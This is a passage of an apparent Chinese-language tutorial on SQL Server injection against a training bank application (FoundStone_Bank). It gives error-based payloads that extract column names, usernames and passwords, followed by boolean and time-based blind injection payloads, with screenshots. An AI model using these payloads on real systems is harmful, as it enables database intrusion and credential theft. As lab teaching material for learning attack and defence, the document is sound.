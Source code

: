 ![](https://img.mi3aka.eu.org/2022/08/91c1830482e34dc69eb698b79dfa7700.png)

```
user_id=1 and (select name from syscolumns where id=(select id from sysobjects where xtype='u' and name='fsb_accounts') order by 1 offset 0 rows FETCH NEXT 5 ROWS ONLY for xml path)=1;
```

![](https://img.mi3aka.eu.org/2022/08/2c2b85b9d91adead1bde6e64eea4d286.png)

10. 获取数据

`user_id=1 and (select top 1 password from fsb_users)=2;`

![](https://img.mi3aka.eu.org/2022/08/680b40f517692aa842a0817ad9e6854f.png)

>批量查询,利用派生表保证从order by后的顺序仍然一致

```
use FoundStone_Bank;
select * from fsb_users;
select b from (select 1 as a,user_name as b from fsb_users order by 1 offset 0 rows FETCH NEXT 5 ROWS ONLY) as c;
select b from (select 1 as a,password as b from fsb_users order by 1 offset 0 rows FETCH NEXT 5 ROWS ONLY) as c;
```

![](https://img.mi3aka.eu.org/2022/08/6390b62addda2b25c87eb8f0088ec36d.png)

`user_id=1 and (select b from (select 1 as a,user_name as b from fsb_users order by 1 offset 0 rows FETCH NEXT 5 ROWS ONLY) as c for xml path)=2;`

![](https://img.mi3aka.eu.org/2022/08/a48bf87bb978a71ba0c841f07792e1a6.png)

## 布尔盲注

```
user_id=1 and len((select @@version))>10
user_id=1 and len((select @@version))<10
user_id=1 and ascii(substring((select @@version),1,1))>100
user_id=1 and ascii(substring((select @@version),1,1))<100

user_id=1 and (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN 1 ELSE 0 END)=1
```

## 时间盲注

```
user_id=1 if(1=1) waitfor delay '0:0:5'
if()中的内容与布尔盲注基本一致
还有一个参数叫waitfor time,MSDN上的解释时waitfor time用于定时执行任务
```

![](https://img.mi3aka.eu.org/2022/08/db6510fe2cd372c3286c17baf42ad900.png)
